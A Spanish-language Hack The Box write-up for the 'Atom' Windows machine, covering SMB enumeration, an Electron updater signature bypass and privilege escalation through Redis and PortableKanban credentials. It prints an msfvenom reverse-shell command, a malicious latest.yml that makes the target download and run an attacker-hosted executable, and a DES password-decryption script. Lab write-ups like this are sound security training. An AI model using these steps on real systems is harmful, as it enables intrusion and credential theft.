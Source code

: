```yaml
---
title: "Atom - Hack The Box"
layout: single
excerpt:
show_date: true
classes: wide
header:
  teaser: "https://raw.githubusercontent.com/Wiinsad/Wiinsad.github.io/master/assets/images/machines/HTB/atom/data/Atom.jpg"
  teaser_home_page: true
  icon: "https://github.com/Wiinsad/Wiinsad.github.io/blob/master/assets/images/icons/Hackthebox2.png?raw=true"
categories:
  - Writeup
  - HackTheBox
tags:
  - Smb
  - Redis
  - Windows
---
```


<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/Wiinsad.github.io/master/assets/images/machines/HTB/atom/data/AtomHTB.png">
</p>

La máquina **atom** es una máquina virtual vulnerable de la plataforma HackTheBox con un nivel de dificultad **Medium** una calificación en el rank de 2.8, **2131 USER OWNS** y **2010 SYSTEM OWNS** con la ip **10.10.10.237** y un sistema operativo **Windows**.

## Port Scan

Para empezar, hice un escaneo con la herramienta **Nmap** para encontrar los puertos abiertos disponibles en la máquina con **[Ip:10.10.10.237]** utilizando los parámetros:
- **-p-:**    Escaneo a toda la gama de puertos (65536).
- **-Pn:**    Evita hacer ping a las maquinas a escanear.
- **--min-rate:** Envió de paquetes no mas lentos que el numero especificando.
- **-sS:**    Lanza un sondeo de tipo SYN sigiloso
- **--open:** Muestra sólo los puertos con un estatus abierto.
- **-oG:**    Guarda la el output en formato Grepeable.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/atom/scan/scanPort.png">
  </p>


  Una vez que hicimos el escaneo de puertos con la herramienta **ExtractPorts**, vemos que los puertos que destacaron en este caso fueron **80,135,443,445,5985,6379**:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/atom/scan/Ports.png">
  </p>


  Ya identificados los puertos abiertos, realizaremos un escaneo de versiones y servicios de estos puertos con la herramienta nmap configurando los siguientes parámetros:

  - **-sC:** Script de enumeración básica de sondeo en puertos y servicios alojados.
  - **-sV:** Detección de versiones en servicios alojados en puertos.
  - **-p :** Puertos a inspeccionar.
  - **-oN:** Formatos de Nmap en los que se guardará el archivo.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/atom/scan/PortServ.png">
  </p>

  Gracias a escaneo de versiones y servicios podemos ver varios puertos que son de interés como el **445**, el **6379** y el **80**, para esto voy a enumerar el servicio 445 que es un servicio de **SMB**, para esto usare la herramienta de **smbclient** para listar los recursos y con auténticamente con el usuario **"anonymous"**:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/atom/scan/smb.png">
  </p>

  Con esta enumeración de recursos y entrando como un usuario **anonymous** con una null session puedo ver que existe un recurso llamado **Software_Updates**, para ver si tengo permisos para acceder a ese recurso usare la herramienta de **smbmap** para identificar los permisos que tengo sobre ese recursos con la null session:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/atom/scan/smbp.png">
  </p>

  Como se puede ver tengo permisos de **lectura y escritura** en este recurso compartido por smb así que ya con esto en mente entrare al recurso con **smbclient**:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/atom/scan/smba.png">
  </p>

  Al entrar al recurso se puede ver que existen 3 carpetas **client** numeradas de **1 al 3** y un archivo pdf.


  Transfiriendo el pdf a mi maquina puedo ver puedo ver que habla de un aplicativo llamado **Heedv1.0**.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/atom/scan/heed.png">
  </p>

  Investigando en se puede llegar un **[post](https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html)** el cual explica como mediante la subida de un archivo **lastet.yml** con contenido malicioso puede ser interpretado para ejecutar comando.

  Sabiendo esto primero voy a crear un archivo malicioso con la herramienta de **msfvenom**

  ```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > w\'insad.exe
  ```

  Una vez creado nuestro ejecutable el cual queremos que la maquina nos interprete en el post nos indica que tenemos que conseguir el hash del ejecutable para ingresarlo en nuestro archivo **lastet.yml**, este hash se consigue con las siguiente sentencia de comando:

  ```bash
shasum -a 512 w\'insad.exe | cut -d " " -f1 | xxd -r -p | base64
  ```
  Ya que tenemos el hash tenemos que crear nuestro archivo **lastet.ymal** el cual tendrá el siguiente contenido:

  ```bash
  version: 1.2.3
  path: http://10.10.15.125/w\'insad.exe
  sha512: [Hash]
  ```

  Ya que cree el archivo **lastet.ymal** entro al recurso compartido con **smbclient** y dentro de una carpeta **client1** subo el archivo **lastet.ymal**, poniéndome en escucha por el puerto 443 el cual fue el que especifique ene el archivo exe y levantando un servicio **http** con python para que cuando el aplicativo interprete el contenido de **lastet.ymal** comunique a mi maquina y ejecute el archivo exe.
  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/atom/intrusion/shell.png">
  </p>

  Como se puede ver el aplicativo es vulnerable a esta ejecución de comando y pude acceder a la maquia como el usuario **jason**

## Privilege escalation

  Para poder hacer una escala de privilegios yo usare la herramienta **"winpeas"** la cual ayuda a enumerara el sistema windows en busca de vulnerabilidades, procesos, credenciales o archivos interesantes que existan en la maquina.

  Para transferir el archivo yo me levantare un servicio smb en mi maquina para que desde la maquina victima poder copiar el archivo **winpeas**.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/atom/intrusion/tra.png">
  </p>

  Una vez que pase el binario lo ejecute y espere a los resultados los cuales me lanzaron que se pueden ver las credenciales del usuario **jason** en el sistema.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/atom/intrusion/cred.png">
  </p>

  También es notable que esta corriendo **redis** ya que lo vimos a la hora de escanear los puertos existentes y viendo en los resultados que winpeas me dio, veo que redis tiene un archivo de configuración setteado.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/atom/intrusion/redis.png">
  </p>

  Si vamos a ese directorio y vemos que en uno de los archivos que existente de configuración se puede ver que hay unas credenciales para redis y recordando que redis es visible para nosotros puedo intentar acceder a redis con esas credenciales.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/atom/intrusion/redis1.png">
  </p>

  Entrando a redis con una cli con los comando ```redis-cli -d <IP-Machine> -a <Password> ``` y enumerando las key se puede ver que existe una con el hash de el usuario administrador.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/atom/intrusion/redis2.png">
  </p>

  Teniendo este hash y enumerando mas el sistema podemos ver que hay un fólder en Descargas del usuario **jason** llamado **PortableKanban** haciendo una búsqueda se puede llegar a que hay recurso en **"Exploit Database"** el cual sirve para descifrar este tipo de hashes.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/atom/intrusion/exp.png">
  </p>

  Adaptando el exploit ya que esté sirve para encriptar pero cuenta con una función de decryp podemos lograr pasarle el hash para decryptarlo.

  ```python
  import json
  import base64
  from des import * #python3 -m pip install des
  import sys

  def decode(hash):
          hash = base64.b64decode(hash.encode('utf-8'))
          key = DesKey(b"7ly6UznJ")
          return key.decrypt(hash,initial=b"XuVUm5fR",padding=True).decode('utf-8')

  print(decode('<HASH>'))
  ```
  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/atom/intrusion/admi.png">
  </p>

  Ahora que tenemos las credenciales del usuario "administrador" podemos verificarlas con la herramienta de **crackmapexec**:

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/atom/intrusion/preshell.png">
  </p>
  Y como vemos la herramienta los muestra un **Pwn3d!** lo que significa que tenemos capacidad de **psexec** para obtener una shell como el usuario administrador.

  <p align="center">
  <img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/atom/intrusion/shellr.png">
  </p>

